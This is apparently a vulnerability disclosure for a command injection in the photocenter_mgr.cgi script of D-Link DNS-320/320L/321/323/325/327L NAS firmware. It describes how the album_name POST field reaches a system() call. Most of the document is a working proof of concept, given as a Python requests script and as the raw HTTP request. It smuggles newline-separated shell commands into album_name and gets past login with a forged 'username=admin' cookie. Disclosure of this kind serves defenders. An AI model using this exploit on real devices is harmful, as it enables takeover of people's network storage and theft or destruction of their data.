 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L  all firmware version
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_set_cover function of the file /cgi-bin/photocenter_mgr.cgi.  The variable `album_name` is passed from a POST request and is assigned to `v1` via the `sprintf` function at line 21 `` and invoked by the `system` command,  the `SpecSymbol2BackSlash` function did not work  which leads to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723392999395-e044efec-9552-43b1-bc0c-71639bf3ce50.png#averageHue=%23fdfdfa&clientId=u2c4895bb-f0ee-4&from=paste&height=167&id=u33235fba&originHeight=254&originWidth=914&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=44277&status=done&style=none&taskId=u70717cba-202d-4f69-a339-1c0d3cc79d9&title=&width=600.5555419921875)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/photocenter_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_set_cover&album_name=%0atouch%09/tmp/666%0a&cover_name=/tmp/111&name=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/photocenter_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_set_cover&album_name=%0atouch%09/tmp/666%0a&cover_name=/tmp/111&name=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/
```


